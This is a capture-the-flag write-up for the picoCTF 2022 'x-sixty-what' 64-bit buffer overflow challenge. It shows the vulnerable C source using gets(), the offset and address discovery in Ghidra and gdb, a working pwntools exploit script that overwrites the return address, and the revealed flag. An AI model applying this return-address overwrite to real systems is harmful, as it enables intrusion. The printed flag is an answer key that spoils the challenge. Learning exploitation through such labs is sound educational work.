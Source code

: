 #pico2022 #binaryexploitation 

## Challenge:
```md
Overflow x64 code
```

This launches an instance:
```md
Overflow x64 code Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the `flag` function in this [program](https://artifacts.picoctf.net/c/192/vuln). [Download source](https://artifacts.picoctf.net/c/192/vuln.c). `nc saturn.picoctf.net 51144`
```

## Process:
Download the files.
```bash
wget -q https://artifacts.picoctf.net/c/192/vuln
wget -q https://artifacts.picoctf.net/c/192/vuln.c
```
#wget 

Make the *vuln* program executable.
```bash
chmod +x vuln
```
#chmod 

I opened up the *vuln.c* file in emacs.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
#emacs #c 

Next I installed [*ghidra*](https://ghidra-sre.org/). I did this via the *Pop! Shop*.

I opened the file in *ghidra* and found the command after the push.
![[040_x-sixty-what.png]]
#ghidra

```
0040123b
```

This is also *little endian*.

I run the file in *gdb* and find I need to pass 72 characters before I can cause a segmentation fault.
```
gdb vuln
```
#gdb 

From here I write a *python* script using *pwntools* to send the payload.
```python
#!/usr/bin/env python3

from pwn import *

payload = b'A'*72 + b'\x3b\x12\x40\x00\x00\x00\x00\x00'

p = remote("saturn.picoctf.net", 51144)

output = p.recvline()
print(output.decode())

print("Attempting to send payload")
p.sendline(payload)
print("Payload sent")

output = p.recv()
print(output.decode())
```
#python #pwntools

Sending this payload returns the flag.
```
[+] Opening connection to saturn.picoctf.net on port 65429: Done
Welcome to 64-bit. Give me a string that gets you the flag:

Attempting to send payload
Payload sent
picoCTF{b1663r_15_b3773r_11c407bc}
[*] Closed connection to saturn.picoctf.net port 65429
```
#python #netcat #nc  #pwntools 

Save the flag.
```bash
echo "picoCTF{b1663r_15_b3773r_11c407bc}" > flag.txt
```
#echo 

**Flag: *picoCTF{b1663r_15_b3773r_11c407bc}***

